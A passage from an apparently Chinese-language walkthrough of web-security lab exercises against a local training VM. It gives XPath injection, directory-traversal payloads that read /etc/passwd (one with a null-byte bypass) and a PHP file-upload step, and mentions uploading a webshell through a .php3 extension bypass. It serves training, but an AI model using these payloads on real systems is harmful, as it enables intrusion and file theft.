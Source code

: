 ## Example 2

这个是XML Injection，以前做过，也写过wp，<http://old.lazysheep.cc/2015/04/15/0x20/#0x1_%E5%8F%A6%E7%B1%BB%E7%9A%84%E6%B3%A8%E5%85%A5_|_POINT_:_100>
Payload:
```
http://192.168.56.101/xml/example2.php?name=hacker%27%5D%20%7C%20%2f%2f%2a%7C%20%2f%2f%2a%5B%27
```

# Directory traversal

## Example 1

打开来看啥也没有。。不明所以，看了下源码，是没做任何过滤的任意文件读取，，
Payload:
```
http://192.168.56.101/dirtrav/example1.php?file=../../../../etc/passwd
```

## Example 2

也不难。。。几乎也跟没过滤一样
```
http://192.168.56.101/dirtrav/example2.php?file=/var/www/files/../../../etc/passwd
```

## Example 3

这题的这正则有跟没有一样。。。不能匹配到结尾的`\x00`
Payload:
```
http://192.168.56.101/dirtrav/example3.php?file=../../../etc/passwd%00
```

# File Upload

## Example 1

同样是没做过滤。。。
```
$ echo "<?php phpinfo();?>" > /tmp/test.php
```

把 `/tmp/test.php` 上传上去，然后可以直接访问。。同样可以写一句话getshell

## Example 2

这题过滤了php结尾的文件。。。然后php3 bypass后可成功执行